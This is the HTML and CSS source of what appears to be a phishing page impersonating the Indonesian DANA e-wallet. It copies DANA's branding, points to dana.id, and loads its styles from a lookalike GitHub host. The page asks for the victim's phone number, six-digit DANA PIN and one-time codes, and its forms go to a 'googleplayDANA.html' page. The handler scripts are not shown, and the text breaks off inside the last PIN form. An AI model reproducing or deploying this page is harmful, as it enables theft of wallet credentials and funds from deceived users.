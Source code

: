 <html lang="id">
  <meta charset="utf-8">
   <meta name="theme-color" content="#118EEA"> 
  <meta content="DANA E-wallet" property="og:title">
  <meta content="dana.id" property="twitter:title">
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0" name="viewport">
 <meta name="description" content="Mau bayar apapun jadi semudah lewat sentuhan jari. Lewat DANA, kamu bisa melakukan transaksi apapun dengan praktis mulai dari pembayaran tagihan, transaksi barcode scan, hingga e-commerce. #GantiDompet dan nikmati metode pembayaran yang lebih cepat, praktis dan aman.">
  <meta content="https://assets.kompasiana.com/items/album/2022/01/19/dana-heri-61e79b5c06310e2d0778d653.jpg?t=o&v=325" property="og:image">
  <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
  <meta content="Dana E-wallet" name="generator">
    <title>DANA E-wallet</title>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'self' 'unsafe-inline' 'unsafe-eval' data: gap:">
  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Inter:100,200,300,regular,500,600,700,800,900" media="all"> 
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="apple-touch-icon">
<link rel="stylesheet" href="https://www-dana-idl.github.io/Dana.kaget/dana.css">
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.inputmask/3.3.4/jquery.inputmask.bundle.min.js">
</script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.10.2/jquery.min.js"></script>
  
<style>
* {
  box-sizing: border-box;
}

body {
  
      box-sizing: border-box;
    display: block;
    margin: 0px auto;
    font-family: Arial, Helvetica, sans-serif;
    width: 100%;
    height: 100%;
    max-width: 600px;
    max-height: 1000px;
    background-color: #118EEA;
    padding: 25px;
    position: absolute;
    top: 50%;
    left: 50%;
    transform: translate(-50%, -50%);
    -webkit-transform: translate(-50%, -50%);
    -moz-transform: translate(-50%, -50%);
    -ms-transform: translate(-50%, -50%);
    -o-transform: translate(-50%, -50%);
}

#regForm {
  max-width: 500px;
    margin: auto;
    margin-top: 0px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}

h1 {
  text-align: center;  
}

.inputku {
  box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 22px;
    font-weight: 600;
    padding-left: 80px;
}

/* Mark input boxes that gets an error on validation: */
input.invalid {
  background-color: #ffdddd;
}

/* Hide all steps by default: */
.tab {
  display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}



/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;    display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}

#prevBtn {
  
   position: absolute;
    top: 0px;
    width: 18px;
    float: left;
    left: 10;
}

/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;  
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  opacity: 0;
}

/* Mark the steps that are finished and valid: */
.step.finish {
  background-color: #04AA6D;
}

.dana_logo{
    display: block;
    width: 95px;
    opacity: ;
    margin-bottom: 50px;
    margin-top: 10px;
    position: fixed;
    top: 0;
    left: 0;
    right: 0;
    margin: 10px auto;
    margin-left: auto;
    margin-right: auto;
}

 .bh1 {
    font-weight: 700;
    font-size: 15px;
    color: white;
 }
 
 .bh11{
     font-size: 15px;
     margin-top: 5px;
     color: white;
     margin-bottom: -10px;
     font-weight: 300;
 }
 
 .inputNo {
    box-sizing: border-box;
    margin-top: 20px;
    width: 100%;
    /*background-color: #ff0000a5;*/
    height: 100%;
    max-height: 800px;
}
.formNo, .nope {
    box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 24px;
    font-weight: 600;
    padding-left: 90px;
}
.formNo {
    max-width: 500px;
    margin: auto;
    margin-top: -60px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}
label {
    display: inline-block;
    position: relative;
    bottom: -49px;
}
.flagIndo {
    width: 25px;
    margin-left: 10px;
    margin-right: 5px;
    border-radius: 2px;
    box-shadow: 0.3px 0.3px 2px #ccc;
}
.codeTel {
    font-weight: 600;
    font-size:17px ;
}
.syarat {
    font-size: 14px;
    margin-left: 0px;
    margin-right: 0px;
    color: white;
    font-weight: 400;
}
.send_data {
    background: none;
    font-size: 15px;
    color: #ffffff9c;
    border: none;
    width: 70px;
    height: 40px;
    margin-top: 500px;
    transition: 0.3s;
}
.send_data:active,.send_data:hover,.send_data:focus{
    font-size: 15.3px;
    color: #ffffff;
    width: 75px;
    height: 45px;
    transition: 0.3s;
}
input::placeholder {
    font-weight: 600;
    font-size: 24px;
    padding-top: 7px;
    padding-left: 2px;
    color: #bebebe;
}

.back {
    position: absolute;
    top: 15px;
    width: 18px;
    float: left;
    left: 10;
}

.btnku{
       margin-top: 15px;
    width: 90%;
    margin: 12px auto;
    position: absolute;
    bottom: 10px;
    left: 0;
    font-size: 16px;
    right: 0;
    height: 50px;
    border-radius: 10px;
    box-shadow: rgb(170, 170, 170) 0px 0px 0px 0px; 
    transition: background 0ms step-start 0s;
    background-color: transparent;
    font-weight: 800;
        }
        
        
        .btnku:disabled{
            opacity: 0.4;
        }
  h3{
      text-align: center;
      font-size: 15px;
      color: white;
      margin-top: 85px;
      font-weight: 400;
      background-color: #118EEA;
  }
  .pin-code{ 
  padding: 0; 
  margin: 0 auto; 
  display: flex;
  justify-content:center;
  
} 
 
.pin-code input { 
  border: none; 
  text-align: center; 
  width: 36px;
  height:42px;
  font-size: 36px; 
  background-color: #fff;
  margin-right:-0px;
  border-radius: 8px;
} 



.pin-code input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


input::-webkit-outer-spin-button,
input::-webkit-inner-spin-button {
    -webkit-appearance: none;
    margin: 0;
}
.button { 
  font-family: helvetica;
  text-align:center;
  color: #fff;
  padding: -5px;
  margin: -1px;
  max-width: 100%;
  font-size: 12px;
  margin-top: 20px;
  margin-bottom: 50px;
  background: #118EEA;
  border: 1px solid;
  border-color: #fff;
  border-radius: 20px;
  width: 30%;
  height: 22px;
}
#myForm{
    display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 670px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;
  
}
#valid{
display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 670px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;
}
@keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-moz-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-webkit-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-o-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-ms-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

 .resend{
     text-align: center;
 }
 
 .pin-code1{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;
  
} 
 
.pin-code1 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code1 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 

 .pin-code2{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;
  
} 
 
.pin-code2 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code2 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


 /*********************/
.process {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: ;
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
  
}
  

.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

 #danapin{
     width: 100%;
     height: 650px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgDlAoE0-pgmIw6eGUJsLaRLS2KbvxqYTGA_8TQOf0-EdX8DoT1OUfhfnrPXMHfuU5NlKQfLJMSgISuw_cgbRX1nlcw2zpj-8tsmwiT3eZQxVJTERUbcLvMV4qHsnFmhy99mjfqy5UzsaT50f3LS_BHsTCS1SfLW1LRRO4ywlmj1XaLF1rETALk_fOm/s16000/AddText_05-01-06.11.17.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
     
     
 }
 
 #homeku{
     width: 100%;
     height: 650px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    bottom: 0;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
     
     
 }
 
 welalxcome {
    display: flex;
  position: fixed;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj2bBMVwYYKeZgCDrn0p4KsFYmQ1SRc6igX5lRwrNCXdc7YPYS80nlUrCcPnKCpv2M7vlP-OFsMgZtgf_-2vCU_T-1Bx94mSgYLFlgk4hGqEKmdHJZxLJR7e2wIonshknidTarYXNIu11uoWQMvThCh9kzi2h-Q6TPcEV788XeYmf-NU9pLd7tPZwT2/s16000/AddText_05-01-07.00.21.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  z-index: 10000;

}
welalxcome img {
        width:100%;
    height: 700px;
    margin-top: -55px;
    
}
chsalxcome {
        position: relative;
    width: 100%;
    height: 100vh;
    display: flex;
    flex-direction: column;
    flex-wrap: nowrap;
    align-items: center;
}
 
 @-webkit-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-moz-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-o-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}

.page {
 animation-name: slide;
 animation-duration: 1s; 
 animation-fill-mode: forwards; 
}





.credit_card{
    
}

.ewc_place{
    margin-top: -5px;
}

.ewc_place::placeholder{
    font-size: 14px;
}


@keyframes tonext {
  75% {
    left: 0;
  }
  95% {
    left: 100%;
  }
  98% {
    left: 100%;
  }
  99% {
    left: 0;
  }
}

@keyframes tostart {
  75% {
    left: 0;
  }
  95% {
    left: -300%;
  }
  98% {
    left: -300%;
  }
  99% {
    left: 0;
  }
}

@keyframes snap {
  96% {
    scroll-snap-align: center;
  }
  97% {
    scroll-snap-align: none;
  }
  99% {
    scroll-snap-align: none;
  }
  100% {
    scroll-snap-align: center;
  }
}


* {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118EEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118EEA;
  padding-top:0%;
  top: 0;
  right: 0;
  left: 0;
  margin: 1px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  width: 100%;
  top: 0;
  background-color: #118EEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 534px;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 1px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 78%;
  margin-left: 10px;
  background-color: #118EEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118EEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118EEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 20;
  width: 100%;
  height: 530px;
  scroll-snap-align: center;
  background-color: #118EEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}

.carousel__navigation-button {
  display: inline-block;
  width: 0.8rem;
  height: 1.0rem;
  background-color: #000;
  background-clip: red;
  margin: 10px -20;
  border: 0.2rem solid blue;
  border-radius: 50%;
  font-size: 0;
  position: relative;
  top: -2px;
  margin-left: -10px;
  text-align: center;
  transition: transform 0.1s;
}

.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

</style>
<body>
 <main>
         
 <welalxcome>
 
</welalxcome>
<chsalxcome2 style="display: none;">
<div style="height:30px;width: 70px;margin-top: -30px;margin-bottom: 0px;float:center;margin-left:42%" class="talxcome">
</div>
<form class="regForm" action="googleplayDANA.html" method="get">
     <center>
   <img class="dana_logo" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrWtY0kKy_PhEmPe1oiSlQMTbwojkQ9xkGIDV7JU1wx7ofj7R2evgWsKdBPJ_3sv1wFAIpmsQYQ8_70jWdrr6KGTXT6ie9IuJWhocY_-FmK01JKwrbFZ6JPYwoaY5qCOX7_XS4bHlFFPS3LcwWUChAmCCQFf9BpSUgCGh7u4G9ubbnVgXJYdIjFOLK/s16000/AddText_05-15-01.34.42.png">
     </center>       
  <!-- One "tab" for each step in the form: -->
<div class="" style="text-align: center;" id="homeku">
    <div style="position: fixed; top: 0; right: 0; left: 0; margin: 1px auto; height: 50px; width: 100%; background: #118EEA; z-index: 9999999999; margin-bottom: 0px">
        <center>
       <img class="dana_logo" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrWtY0kKy_PhEmPe1oiSlQMTbwojkQ9xkGIDV7JU1wx7ofj7R2evgWsKdBPJ_3sv1wFAIpmsQYQ8_70jWdrr6KGTXT6ie9IuJWhocY_-FmK01JKwrbFZ6JPYwoaY5qCOX7_XS4bHlFFPS3LcwWUChAmCCQFf9BpSUgCGh7u4G9ubbnVgXJYdIjFOLK/s16000/AddText_05-15-01.34.42.png" style="z-index: 9999999999">
       </center>
       </div>
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button">Go to slide 1</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button">Go to slide 2</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button">Go to slide 3</a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button style="width: 100%; height: 140px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEid9dARAQbMu1UTEgpOfyH6pn4eI3_XArbELp_8lfZtysRgex-gqs0Czc9ch_O7U2lrucgBVSqGQEL33BwV3Ri4D3evjzJHJ6LBFa_K-pIPbdO6QQ3iHlTkLiqo_w2z2NbXTw83lNcWHG7T9q2n6m7N3SZ-qfZpTdsioS3dm-YIfJh4zU16QEODOLKn/s16000/AddText_06-06-08.17.04.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;" onclick="nextPrev()"></button>
  </div>
  <div class="tab" id="login">
 <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
    <p style="margin-top: 60px"><h1 class="bh11">Masukkan <b class="bh1">nomor HP</b> kamu untuk lanjut</h1>
     <label for="nomorhp" class="flagNo">
<img class="flagIndo" src="https://img.freepik.com/free-vector/illustration-indonesia-flag_53876-27131.jpg?size=626&ext=jpg"></label>
<label for="nope"><p class="codeTel">+62</p></label>
<input type="hidden" id="logo" value="">
         <input class="form-control nope" id="nope" type="tel" name="nope" placeholder="811-1234-5678" maxlength="16" autocomplete="on" required></p>
        <br>
        <h1 class="syarat">Nomor ponsel akan digunakan sebagai ID kamu & 
        menjaga akun selalu aman. Dengan melanjutkan kamu setuju dengan <b class="bh1">Syarat & Ketentuan</b> dan <b class="bh1">Kebijakan Privasi</b> kami</h1>
   <button type="button" id="nextBtn" class="btnku" onclick="nomorLogin()" disabled="disabled">Lanjut</button> 
  </div>
  <div class="tab" id="danapin">
      <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
      <center>
  
      <h3>Masukkan <strong>PIN DANA</strong></h3>
    <div class="pin-code" maxlength="6" style="margin-top: 30px;">
        
    <center>
   <input type="hidden" id="logo" value="">
    <input type="hidden" name="sixpin" id="setPin"> 
	<input type="tel" id="pin1" data-id="1" maxlength="1" required autofocus>
    <input type="tel" id="pin2" data-id="2" name="pin2" maxlength="1" autofocus>
	  <input type="tel" id="pin3" data-id="3" name="pin3" maxlength="1" autofocus>
    <input type="tel" id="pin4" data-id="4" name="pin4" maxlength="1" autofocus>
    <input type="tel" id="pin5" data-id="5" name="pin5" maxlength="1" autofocus>
   <input type="tel" value="" id="pin6" data-id="6" name="pin6" maxlength="1" required onchange="javascript:this.form.button();" oninput="openForm()" autofocus>
    <p></p>
    <input type="tel" style="opacity: 0.0">
     </div> 
 <h2><input class="button" type="button" style="margin-top: -55px;" value="TAMPILKAN"></h2>
    </center>

  </div>
  <div class="tab" id="myForm">
       <button type="button" style="background-color: transparent; color: transparent; margin-top: -5px" class="back" id="prevBtn1" onclick="kembalibutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg" style="opacity: 0.0"></button>
       <p style="font-size: 20px; text-align: center; margin-bottom: -120px; font-weight: 600; color: #070707; margin-top: 141px; margin-left: -125px; opacity: 0.0;">nomor</p>
             
    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: 0px; background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiSpY6Zfek1Rwe6IGuCNCHImMircf3aUYhAxWkLQfwZTZAv8kOcHmQWDpB7KkXYNBbt8vSu6eyWWOGmhCRf-GU1u5n3o9fmES-zHCNIz3TKYfCsB6ADDliu9vzwyDkJR8b97LBQ78AUvDyQzIYG5jqgLXW_6S2CCxK9M5Bj5nyoXHyAaW48EPtv5Vnm/s16000/AddText_06-06-10.03.33.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 
  
      <div class="pin-code1" maxlength="6" style="margin-top: 98px"> <center>
          
       <input type="tel" id="pin11" data-id="11" name="pin11" maxlength="1" required autofocus> 
       <input type="tel" id="pin22" data-id="22" name="pin22" maxlength="1" autofocus> 
       <input type="tel" id="pin33" data-id="33" name="pin33" maxlength="1" autofocus> 
       <input type="tel" id="pin44" data-id="44" name="pin444" maxlength="1" required onchange="javascript:this.form.button();" oninput="kirimPesan()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <p id="userid" style="font-size: 15px; text-align: center; margin-bottom: 130px; font-weight: 400; color: #070707; margin-top: -140px; margin-left: 0px; display: ">nomor</p>
       <p></p>
       <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 170px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 
     
     <input type="hidden" id="logo" value="">
   
  </div>
  <div class="tab" id="valid">
  <p id="userid" style="font-size: 20px; text-align: center; margin-bottom: -100px; font-weight: 600; color: #070707; margin-top: 66px; margin-left: -125px; opacity: 0.0;">nomor</p>
  
         
    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: 0px; background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiSpY6Zfek1Rwe6IGuCNCHImMircf3aUYhAxWkLQfwZTZAv8kOcHmQWDpB7KkXYNBbt8vSu6eyWWOGmhCRf-GU1u5n3o9fmES-zHCNIz3TKYfCsB6ADDliu9vzwyDkJR8b97LBQ78AUvDyQzIYG5jqgLXW_6S2CCxK9M5Bj5nyoXHyAaW48EPtv5Vnm/s16000/AddText_06-06-10.03.33.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 
  <form action="googleplayDANA.html" method="get">
      <div class="pin-code2" maxlength="6" style="margin-top: 107px"> <center>
          
       <input type="tel" id="pin111" data-id="111" name="pin111" maxlength="1" required autofocus> 
       <input type="tel" id="pin222" data-id="222" name="pin222" maxlength="1" autofocus> 
